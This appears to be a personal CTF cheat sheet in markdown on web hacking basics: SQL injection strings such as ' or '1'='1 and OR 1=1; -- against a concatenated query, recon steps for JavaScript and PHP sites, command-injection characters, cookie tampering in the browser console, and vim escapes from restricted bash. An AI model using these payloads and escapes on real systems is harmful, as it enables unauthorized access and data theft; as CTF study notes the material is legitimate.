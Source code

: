 # Basics
## SQL hacking

Injection with  ’ or ‘1’=‘1 for
```
Select ? Where username=“admin” and password=“password”
Select ? Where username=“admin” and password=“’ or ‘1’=‘1”

sql = 'SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"'
```

Another is admin’# the rest is a commented.
```
value=“admin’ or 1=1;#

SELECT * FROM users WHERE username='john' AND password='123456'

SELECT * FROM users WHERE username='john' OR 1=1; -- ' AND password='123456' 

john' OR 1=1; --

admin’ or ‘
```

1=1 means match on everything so print everything in the table
`#` make everything as a comment for MySQL.
`‘` will allow to include something inside of a string, it will close the string so you can add something else.
`;` will properly close the query and not read what is after

Check for illegal characters can be client side. So we can check the php/javascript for that.

## Javascript hacking

1- Check the source code with the developper tools
2- Check if there are some not protected root files http://site.com/not/protected/file
3- Check /robots.txt for not indexed files
3.1- Don’t forget relative import with `/` at the beginning
4- Check in Application then “cookies” any option that can be changed
5- Check the source code of the executed javascript and or php
6- Use injection in code commands with ; (semi colon) or ``` ` ``` (back ticks) or $ (dollar sign)
7- Check your regex “grep . /place/to/look/“ will look for all.

De obfuscating, nicify
http://jsnice.org/

## Php hacking

Check the .htaccess file that describe what are the authorized http actions.

When in a request with url/?page=… doc put quotes.


## Web hacking

You can find in the Network part of the web developer tool, the information such as Headers, responses cookies …
Information can be placed there.

Javascript in browser console

If you need to change some javascript value in the page, like cookies, you can do it using:
```
document.cookie = document.cookie.replace("flag=0", "flag=1")
```

Start typing `document.` in the console and you will see what you can get and set from the page.

## Shell escaping

After connecting to server with provided credentials it appears that ctfuser is restricted by means of 'rbash'. There is a well-known restricted shell escape with vim text editor. To perform first escape one required to run vim and execute following vim commands:

:set shell=/bin/bash
:shell

rVim
You can use python in rVim but not shell
To list all installed features it is possible to use ':version' vim command.
:python3 import os; os.system(‘shell command’)
